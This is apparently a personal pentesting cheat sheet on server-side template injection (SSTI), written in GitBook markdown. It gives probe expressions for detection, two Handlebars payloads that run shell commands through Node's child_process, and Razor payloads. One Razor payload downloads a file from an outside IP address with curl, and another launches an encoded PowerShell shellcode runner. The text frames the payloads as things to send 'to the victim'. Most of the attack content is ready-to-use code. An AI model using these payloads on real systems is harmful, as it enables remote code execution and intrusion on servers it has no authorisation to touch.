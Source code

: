 ```yaml
---
description: Server-side template injection
---
```


# SSTI

<details>

<summary>Intro</summary>

* Server-side template injection is a vulnerability where the attacker injects malicious input into a template in order to execute commands on the server.

- SSTI is very common on Node.js websites

</details>

<details>

<summary>Identification</summary>

```bash
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```

* If an SSTI exists, --> web server will detect these expressions as valid code --> attempt to execute them (7\*7=49)
* Look at error messages to identify the template engine being used.

</details>

<details>

<summary>Handlebars (NodeJS)</summary>

Do url-encode the following scripts before sending to the victim (using burp's decoder tab)

```javascript
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

If the above has `require is not defined`, use the following script instead

```javascript
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

</details>

<details>

<summary>SSTI in ASP.NET-Razor</summary>

Inputting: @(1+2) --> 3 (vuln to SSTI)

<figure><img src="../.gitbook/assets/image (330).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (331).png" alt=""><figcaption></figcaption></figure>

Using [#powershell-shellcode-runner](powershell-shellcode-runner.md#powershell-shellcode-runner "mention")

```csharp
# Test Connection with Curl
@{
    System.Diagnostics.Process.Start("curl", "http://192.168.45.218/test.txt -o c:/windows/tasks/test.txt");
}

# Exploit below
@System.Diagnostics.Process.Start("cmd.exe","/c powershell.exe -enc SQBFAFg..");
```

</details>
